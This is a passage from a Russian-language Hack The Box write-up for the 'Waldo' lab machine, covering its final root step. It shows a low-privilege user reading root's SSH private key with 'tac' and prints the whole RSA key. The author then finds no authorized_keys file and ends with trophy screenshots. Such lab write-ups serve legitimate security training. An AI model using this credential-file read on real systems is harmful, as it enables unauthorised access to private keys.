 ## Root-шелл
Можно было бы прочитать SSH-ключ суперпользователя для получения полноценной root-сессии:
```text
monitor@waldo:~$ tac /root/.ssh/id_rsa | tac
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAvN1rN9lPfdclMO+ZnoA17rDK5coWWPBMfIadj/PKozv1Ol49
Hql4uEZ6XmLqaV5sfbGaYShuRDJqverunF/c6ntu7AADFozRfkmXxnjkU4P7g8nE
IvNf4ow46MvAdiK3nEBD6TJJpwBjqI/RiVb7xac9uA9XWPAZk5CKw1VDCYzhWdbW
GymtVldQkpmMgE8h1/ymWTIXeMuPp/4k/Gfa0jB0TKplZFpGHZ0mBqsEFAU55t7E
TH9Vx2Otr6alb5C5Ufr3vrmdg5wat9FJYMKnd2hz1ful9GNpOF8cWUIDZYzAHmCO
ZXGiiZmiigagRDWCiiT/Jv0l+nek8ytEvGWiIQIDAQABAoIBAFQbAoFHe/fdVImb
WbzU+a+G+YQlX5hRwq39wLL3bTkOHWHVz8AU1laxxBK+WAd+bi/3ZHl56Mjj7tcO
hR4MLrQZLcdZJgbnxO9JVJalBYEPmHUS6A5sdTnNGhbJjbbONRgXImb55wTAzqCl
EznnC430sS6DXnGT0r/9MV5VXNomJwyPBz0t8yqvS8uJkni0GZE3hGRrd5fFeEgz
fz38bJCkN1RWWVgOiKYJUCZQRJ3eNiPBRChp0+NSY3Z/E4omNc07/xpdOnUyPMSP
sdQ5XKj5AIIW2XEd+S0Ro1IebfU3S0Bl4pCRzrROxJLNQNOedOv57JoEtcVC0Ko4
DRTS2YUCgYEA8YGaIIs9L6b2JmnXe8BKBZb0O61r3EsWvkGAsyzxbIlWNSWOcdW5
eHyHW9Md2J4hDTQbrFDQ7yUDoK+j6fi6V/fndD4IE9NUc1pNhhCB1Nt9nwj28nS7
DgNeNaceHtVrn5Hc9KTUJE7HhBwSffKMM95D/7xzYYxTqM11yh7c/ncCgYEAyDMO
05yq1Q/+t2tC5y3M+DVo4/cz65dppQcOf0MIIanwV7ncgk2Wa5Mw8fdo1FtnCdlR
kDE9rs5RkhoMhWcV9R1lV1xXScHaJik0ljghKrnU3yRNPOXTcKCCnxGhXsx8GjWu
uOV/JA5w4urzbUPRNqagREzeqTZN04aM2Jz9kicCgYBZPoVQJWQU6ePoShCBAIva
CPBz5SAIpg7fe6EtlRwZ+Z5LwXckBdCl/46dliRfWf/ouyrGwI6U8N6oUH+IBIwH
2epEAHBHsz5v6hzfv9XabMm9LTjkW9KL2R7FQN5WkpNUwjgeh5KFYD9GSIFk3W6F
9Eq4hFE26P45UMOIT2Nm/QKBgQCPrWUEpblMs/AAPvCC7THfKKWghbczazUchNX4
q2jYkBe3PeJtebVsevRzkzYewYJPZTHOJCi6ncOY8SzvSK5PfctPSSwz+PXQ0V22
OY5EFZ4ajvkHrYFzoR5dfs+rM2IVhVVhyQLYI60MjcYqMrOhXzBCFFDwa9Kq7jOC
+hhZnQKBgQClMZWr2GmGv7KN/LfhOa0dil3fWtxSdHdwdLlgrKDJslcQUM03sACh
F8mp0GWsEg8kUboEKkyAffG5mcZ/xwZP0MbnmGjIg28DgcbnMsldxOJi3m3VAbC+
x8YIcMgR7/X4fGSV20lsgTVMSH9uNNXD+W3sCJ6Nk+mUBcdUoeFt+w==
-----END RSA PRIVATE KEY-----
```

Однако в данном инстансе нет списка с разрешенными SSH-ключами (aka *authorized_keys*) для рута:
```text
monitor@waldo:~$ tac /root/.ssh/authorized_keys
tac: failed to open '/root/.ssh/authorized_keys' for reading: No such file or directory
```

Что делает авторизацию невозможной.

Мы нашли спрятавшийся root, спасибо за внимание :innocent:

{: .center-image}
![waldo-owned-user.png]({{ "/img/htb/boxes/waldo/waldo-owned-user.png" | relative_url }})

{: .center-image}
![waldo-owned-root.png]({{ "/img/htb/boxes/waldo/waldo-owned-root.png" | relative_url }})

{: .center-image}
![waldo-trophy.png]({{ "/img/htb/boxes/waldo/waldo-trophy.png" | relative_url }})
